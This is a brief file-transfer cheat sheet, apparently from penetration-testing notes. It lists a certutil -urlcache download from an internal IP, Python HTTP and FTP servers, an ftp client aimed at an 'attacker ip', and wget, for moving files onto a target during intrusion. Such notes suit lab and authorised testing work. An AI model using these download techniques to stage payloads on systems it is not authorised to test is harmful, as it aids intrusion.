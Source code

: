 
1. Powershell for Windows

```powershell
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt
```

2. Open HTTP server to share files on directory

```shell
python3 -m http.server --bind [your_ip] [port]
```

3. Browser
	- Navigate directly to file

4. FTP
	- from Linux
	`python -m pyftpdlib 21 <attacker machine>`
	- from windows
	`ftp <attacker ip>`

5. Linux

	`wget`